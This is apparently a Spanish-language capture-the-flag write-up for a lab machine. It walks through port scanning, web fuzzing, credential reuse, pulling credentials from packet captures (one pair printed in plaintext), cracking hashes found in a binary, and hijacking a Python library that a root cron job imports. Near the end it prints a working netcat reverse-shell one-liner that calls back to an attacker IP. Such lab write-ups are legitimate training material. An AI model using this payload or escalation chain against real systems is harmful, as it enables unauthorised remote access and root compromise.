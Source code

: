 Realizamos un escaneo de nmap y encontramos los siguientes puertos abiertos
![[Pasted image 20240628073007.png]]

Probamos a acceder por ftp pero sin exito
![[Pasted image 20240628073059.png]]

Accedemos a la web y nos encontramos con
![[Pasted image 20240628073212.png]]

Hacemos fuzzing y encontramos los siguientes directorios
![[Pasted image 20240628073637.png]]

Revisamos los directorios y encontramos varios archivos que podrian contener información
![[Pasted image 20240628073837.png]]

Encontramos un directorio con imagenes
![[Pasted image 20240628073904.png]]

Ahora haremos fuzzing web de extensiones de archivos
![[Pasted image 20240628074443.png]]

Si vamos a la carpeta de static nos aparece vacia pero como vemos todos los numeros son la ruta de los directorios donde se almacena cada foto, revisando encontramos que el directorio 00 no es de ninguna imagen, accedemos a el y nos encontramos con este comentario
![[Pasted image 20240628074601.png]]

Revisando el contenido encontramos un directorio, al acceder nos encontramos con un portal de login
![[Pasted image 20240628080313.png]]

Revisamos el código del panel y encontramos un usuario y contraseña
![[Pasted image 20240628082406.png]]

Al probar a acceder nos redirecciona a la siguiente nota
![[Pasted image 20240628082451.png]]

El mensaje nos indica que posiblemente se esten reutilizando credenciales, lo comprobamos y obtenemos acceso por ftp
![[Pasted image 20240628082744.png]]

Encontramos los siguientes archivos con la extension `pcapng` para la caputura de trafico
![[Pasted image 20240628082914.png]]

Los descargamos
![[Pasted image 20240628085806.png]]

Revisando los registros encontramos unas credenciales
```
valleyDev
ph0t0s1234
```
![[Pasted image 20240628091309.png]]

Probamos a acceder por ssh y obtenemos acceso
![[Pasted image 20240628091701.png]]

Revisando los procesos encontramos una tarea que se ejecuta de forma automatica
![[Pasted image 20240628092238.png]]

Revisamos y no tenemos permisos para modificar el fichero
![[Pasted image 20240628092410.png]]

Encontramos que hay binario el cual el un ejecutable para validar usuarios, al probarlo nos solicita las credenciales
![[Pasted image 20240628094241.png]]

Lo descargamos para analizarlo
![[Pasted image 20240628094705.png]]


Y lo transformamos en una cadena legible
```
strings valleyAutenticator > str.txt
```
![[Pasted image 20240628094417.png]]

Revisamos el fichero y encontramos un login, al analizarlo encontramos unos hashes justo antes del mensaje de bienvenida
![[Pasted image 20240628095429.png]]

Lo crackeamos y obenemos una password
![[Pasted image 20240628095502.png]]

Probamos las credenciales con el usuario Valley y ya habremos escalado privilegios con este usuario
![[Pasted image 20240628095835.png]]

Hemos escalado a Valley pero todavia no podemos modificar el fichero `photosEncrypt.py`, revisamos todo el codigo y encontramos que importa una libreria
![[Pasted image 20240628103011.png]]

Tenemos permisos para eliminar la libreria y crear una para generarnos la reverse shell
![[Pasted image 20240628103101.png]]

Modificamos el fichero y añadimos la siguiente linea
![[Pasted image 20240628105605.png]]

Y ahora nos ponemos en escucha con netcat y solo quedara esperar que se ejecuta la tarea
```
import os
os.system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.155 4242 >/tmp/f')
```
![[Pasted image 20240628110526.png]]

Y ya tendremos acceso como root
![[Pasted image 20240628110751.png]]